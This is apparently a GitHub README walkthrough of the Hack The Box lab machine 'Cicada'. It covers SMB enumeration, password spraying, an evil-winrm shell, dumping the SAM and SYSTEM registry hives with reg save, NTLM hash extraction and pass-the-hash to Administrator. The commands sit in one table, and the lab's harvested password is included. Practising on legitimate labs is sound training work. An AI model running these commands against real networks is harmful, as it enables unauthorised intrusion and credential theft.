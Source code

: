 # 🖥️ Hack The Box – "Cicada" Lab Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-Cicada-green?logo=hackthebox)](https://www.hackthebox.com)
[![Pentest Lab](https://img.shields.io/badge/Type-Active%20Directory-blue)](#)
[![Difficulty](https://img.shields.io/badge/Difficulty-Easy-yellow)](#)
[![Theme](https://img.shields.io/badge/Theme-Windows%20AD-lightgrey)](#)

---

## 📌 General Summary

 This walkthrough details the compromise of **"Cicada"**, a Windows Active Directory (AD) machine on Hack The Box (HTB).  
 The attack chain moves from enumeration to privilege escalation using `SeBackupPrivilege` and pass-the-hash.

**Key Stages:**
- 🔍 Recon & Enumeration (ports, services, SMB shares, AD users)
- 🔑 Credential Harvesting (found in scripts/shares)
- 🚪 Authentication & Password Sprays
- 📂 Share Access & Further Secrets Discovery
- 📈 Privilege Escalation via Backup Privileges
- 💀 Administrator Access via NTLM Pass-the-Hash

---

## 📜 Attack Flow Overview

1. **Recon:** Enumerate ports, services, SMB shares, AD users.  
2. **Cred Harvesting:** Find plaintext credentials in shares or scripts.  
3. **Password Attacks:** Spray credentials for valid logins.  
4. **Pivoting:** Use compromised accounts to explore further assets.  
5. **Privilege Escalation:** Exploit `SeBackupPrivilege` to dump registry hives.  
6. **Hash Extraction & PtH:** Use NTLM hashes to become Administrator.  

---

<details>
<summary>💻 <strong>Commands Used & Their Purpose</strong> (click to expand)</summary>

| Command | Purpose & Description |
|---------|-----------------------|
| `nmap -sC -sV -Pn 10.10.11.35` | Scan target for open ports, services, and default scripts. |
| `echo "10.10.11.35 cicada.htb" | sudo tee -a /etc/hosts` | Add domain mapping locally. |
| `crackmapexec smb cicada.htb --shares` | List SMB shares anonymously. |
| `crackmapexec smb cicada.htb -u 'guest' -p '' --shares` | List SMB shares as guest. |
| `smbclient //cicada.htb/HR` | Connect to "HR" SMB share. |
| `dir` *(within smbclient)* | List files inside share. |
| `get "Notice from HR.txt"` *(within smbclient)* | Download file from SMB. |
| `impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass` | Enumerate domain SIDs. |
| `impacket-lookupsid ...` | `grep 'SidTypeUser'` | Extract user accounts only. |
| `crackmapexec smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'` | Password spray users. |
| `crackmapexec smb cicada.htb -u michael.wrightson ... --users` | List users with credentials. |
| `crackmapexec smb cicada.htb -u david.orelious ... --shares` | Check shares with David's creds. |
| `smbclient //cicada.htb/DEV -U 'david.orelious%...'` | Connect to "DEV" SMB share. |
| `get Backup_script.ps1` *(within smbclient)* | Download script. Got emily's credentials here. |
| `evil-winrm -u emily.oscars ... -i cicada.htb` | Remote shell access. |
| `whoami /priv` | Check privileges. |
| `reg save hklm\sam sam` | Save SAM hive. |
| `reg save hklm\system system` | Save SYSTEM hive. |
| `download sam` | Download SAM hive locally. |
| `download system` | Download SYSTEM hive locally. |
| `impacket-secretsdump -sam sam -system system local` | Extract NTLM hashes. |
| `evil-winrm -u Administrator -H <hash> -i cicada.htb` | Pass-the-hash to Admin. |

</details>

---
<details>
<summary>💻 <strong>Stepwise PoC</strong> (click to expand)</summary>

<img width="1529" height="714" alt="1" src="https://github.com/user-attachments/assets/e87e4402-c194-434a-be20-1d091e0c4264" />
<img width="1527" height="576" alt="2" src="https://github.com/user-attachments/assets/a232a0e0-2e7b-43b6-b2b3-0720c15a0dd0" />
<img width="843" height="66" alt="3" src="https://github.com/user-attachments/assets/629a1cc5-b20e-49a8-973e-6e0bed57da7e" />
<img width="1588" height="213" alt="4" src="https://github.com/user-attachments/assets/a5bef22c-5874-4d12-bd93-0e34f5096412" />
<img width="1572" height="467" alt="5" src="https://github.com/user-attachments/assets/36d4061b-64e2-4b79-b756-100ddd26dff0" />
<img width="1442" height="437" alt="6" src="https://github.com/user-attachments/assets/2d1f1047-4f38-47a1-9e95-a576f30cf461" />
<img width="1768" height="718" alt="7" src="https://github.com/user-attachments/assets/ed7e968a-7b67-4b18-8ecf-a7e08b0d9c8a" />
<img width="1248" height="555" alt="8" src="https://github.com/user-attachments/assets/8a405c0a-88a6-40cb-8998-15c8edcc51c0" />
<img width="830" height="407" alt="9" src="https://github.com/user-attachments/assets/60833066-52bb-47cc-acea-a6c501eac049" />
<img width="1134" height="449" alt="10" src="https://github.com/user-attachments/assets/f961c78e-a3e7-4ed2-94b9-7c8c26cf952c" />
<img width="1548" height="473" alt="11" src="https://github.com/user-attachments/assets/65e5eb67-6b16-4b74-96ee-bba1729f5240" />
<img width="1500" height="475" alt="12" src="https://github.com/user-attachments/assets/2fed2796-0a6d-4ff1-ad4a-de8f27dd40ac" />
<img width="1555" height="592" alt="13" src="https://github.com/user-attachments/assets/9e7e9352-6453-4e19-9249-d128bd13a256" />
<img width="1536" height="478" alt="14" src="https://github.com/user-attachments/assets/b1e954f3-4f88-4c06-a300-9d6b81f2c267" />
<img width="1404" height="373" alt="15" src="https://github.com/user-attachments/assets/6f0aff03-85ce-4adc-a0e2-60a3c1afc26f" />
<img width="1470" height="484" alt="16" src="https://github.com/user-attachments/assets/d75d281d-3936-43a9-95cb-b8cd8af3d770" />
<img width="1012" height="380" alt="17" src="https://github.com/user-attachments/assets/c04f7488-9cc0-458c-b9b8-2ce5e5033467" />
<img width="1011" height="407" alt="18" src="https://github.com/user-attachments/assets/700ac6d5-7d65-4a0f-99fe-12b2b4a7618e" />
<img width="748" height="346" alt="19" src="https://github.com/user-attachments/assets/9a3694f2-b47c-448b-aecd-4cf29e58809c" />
<img width="966" height="310" alt="20" src="https://github.com/user-attachments/assets/b120896d-50e7-47d9-ba36-07a0890c7cc8" />
<img width="1008" height="407" alt="21" src="https://github.com/user-attachments/assets/777abf77-0d39-4150-b560-b01e2eed2321" />
<img width="1016" height="471" alt="22" src="https://github.com/user-attachments/assets/ef0e2aad-77a6-4b21-afed-951e72a69248" />

</details>

---

## 🛠 Toolset Notes

- **nmap** → Reconnaissance & service identification.  
- **crackmapexec** → SMB enumeration, credential spraying, privilege checks.  
- **smbclient** → Manual SMB interaction and file retrieval.  
- **evil-winrm** → Windows remote post-exploitation shell.  
- **reg save** → Registry dump for SAM & SYSTEM.  
- **impacket-secretsdump** → Extracts NTLM hashes from hives.  
- **Pass-the-Hash** → Authenticate with NTLM without knowing the plaintext password.

---
